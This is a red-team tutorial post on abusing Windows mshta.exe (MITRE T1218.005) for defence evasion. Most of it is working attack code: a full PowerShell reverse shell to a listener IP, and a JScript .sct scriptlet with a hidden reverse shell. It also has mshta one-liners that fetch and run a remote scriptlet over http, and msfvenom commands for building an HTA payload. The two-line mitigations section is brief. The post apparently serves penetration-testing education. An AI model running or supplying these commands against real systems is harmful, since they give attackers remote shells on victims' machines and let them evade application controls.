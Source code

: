 ```yaml
---
title: MSHTA
date: 2022-04-01 05:49:33 +0800
categories: [Red Teaming, Defense Evasion]
tags: []  
---
```


# MITRE
- ID : `T1218.005`
- Tactic : `Defense Evasion`
- Platforms: `Windows`

# MSHTA
***Mshta.exe*** is a utility that executes Microsoft HTML Applications (HTA) files. Adversaries may abuse mshta.exe to proxy execution of malicious .hta files and Javascript or VBScript through a trusted Windows utility. Mshta.exe can be used to bypass application control solutions that do not account for its potential use.

# Exploitations

## Command Prompt

### Execute VBscript To Invoke Calculator

***Execute the below commmand to invoke calculator***
```batch
mshta vbscript:Execute("CreateObject(""Wscript.Shell"").Run ""calc.exe"":close")

```
*invoking calculator*
![mshtacalcvbs](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/mshvbacalc.png)

### Execute VBscript To Get Reverse Shell

To get a reverse shell, copy the below powershell script to your .ps1 file, update the ip address and port to your reverse shell listener's ip and port, start your listener i.e `nc -nlvp [port]`, then execute the below command to get a reverse shell.

*reverse shell in powershell*
```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.42.0.1',5000);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
Command

> `mshta vbscript:Execute("CreateObject(""Wscript.Shell"").Run ""powershell -w Hidden -file [path/to/your/file.ps1]"":close")`

*Executing rev.ps1 to get a reverse shell*
```batch
mshta vbscript:Execute("CreateObject(""Wscript.Shell"").Run ""powershell -w Hidden -file rev.ps1"":close")

```
![mshtarevshell](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/mshvbsrev.png)

***Getting reversh shell***
![mshtarevshell](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/kalimshtarev.png)

### Execute Javascript To Get Reverse Shell

To get a reverse shell, copy the below script to your .sct file, update the ip address and port to your reverse shell listener's ip and port, start your listener i.e `nc -nlvp [port]`, host .sct file on your server i.e `python3 -m http.server [port]` then execute the below command to get a reverse shell.

*content of exploit.sct*
```javascript

<?XML version="1.0"?>
<scriptlet>
  <!-- Reverse Shell -->

<public>
    <method name="Exec"></method>
</public>
<script language="JScript">
<![CDATA[

	function Exec()
	{
		var r = new ActiveXObject("WScript.Shell").Run('powershell -w Hidden -c "$client = New-Object System.Net.Sockets.TCPClient(\'170.170.6.136\',5000);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + \'PS \' + (pwd).Path + \'> \';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"');
	}

]]>
</script>

</scriptlet>

```

Command

> `mshta.exe javascript:a=(GetObject('script:[file_url]')).Exec();close();`

*executing mshta to get reverse shell*
```bash
mshta.exe javascript:a=(GetObject('script:http://170.170.6.136:90/exploit.sct')).Exec();close();

```
![mshtarev](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/cmdjswin.png)

*getting reversh shell*

![mshtarev](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/cmdjsmshta.png)

## Metasploit 

### Generating .hta Exploit With Msfvenom

> `msfvenom -p [payload] lhost=[ip] lport=[port] -f hta-psh -o [file_name.hta]`

```bash
┌──(cyberkhalid㉿kali)-[~/pentest/data]
└─$ msfvenom -p windows/shell_reverse_tcp lhost=192.168.43.1 lport=5000 -f hta-psh -o exploit.hta
To use retry middleware with Faraday v2.0+, install `faraday-retry` gem
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of hta-psh file: 7368 bytes
Saved as: exploit.hta
```

### Getting Command Shell 

*executing mshta in windows*

command

> `mshta [file_url]`

![mshtameta](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/metawin.png)

*setting metasploit listener, getting reverse shell*

![mshtameta](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/metasploitmshta.png)


## Powershell Empire

Use `uselistener` to setup your listener, with the listener setup, use `usestager windows/hta` to generate your payload, host your payload on your server, then execute the following command on target system `mshta [http://your_host/your_file.hta]`

### Setting Listener

![empirelistener](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/empirelistener.png)

### Using windows/hta Stager

![empirestager](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/empirestager.png)

### Getting Reverse Shell

![empireshell](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/empireshell.png)

# Mitigations

- Disable or Remove Mshta.exe.
- Block execution of mshta.exe.

# References

- [https://attack.mitre.org/techniques/T1218/005/](https://attack.mitre.org/techniques/T1218/005/)
- [https://docs.microsoft.com/en-us/previous-versions//ms536471(v=vs.85)?redirectedfrom=MSDN](https://docs.microsoft.com/en-us/previous-versions//ms536471(v=vs.85)?redirectedfrom=MSDN)
- [https://atomicredteam.io/defense-evasion/T1218.005/](https://atomicredteam.io/defense-evasion/T1218.005/)
- [https://attack.mitre.org/techniques/T1218/005/](https://attack.mitre.org/techniques/T1218/005/)
- [https://attack.mitre.org/mitigations/M1038/](https://attack.mitre.org/mitigations/M1038/)
- [https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/windows](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/windows)
